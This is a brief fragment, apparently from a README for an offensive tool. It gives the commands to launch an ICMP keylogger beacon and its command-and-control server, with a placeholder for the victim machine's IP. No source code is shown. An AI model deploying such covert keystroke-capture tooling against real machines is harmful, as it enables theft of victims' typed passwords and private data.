 Command to Run the Beacon:

python3 icmp_keylogger_beacon.py -i [network_interface] -d [destination_ip]
Command to Run the C2 Server:


python3 icmp_keylogger_c2.py -i [network_interface] -d [victim_machine_ip]

Replace [victim_machine_ip] with the IP address of the victim machine in the C2 server command.
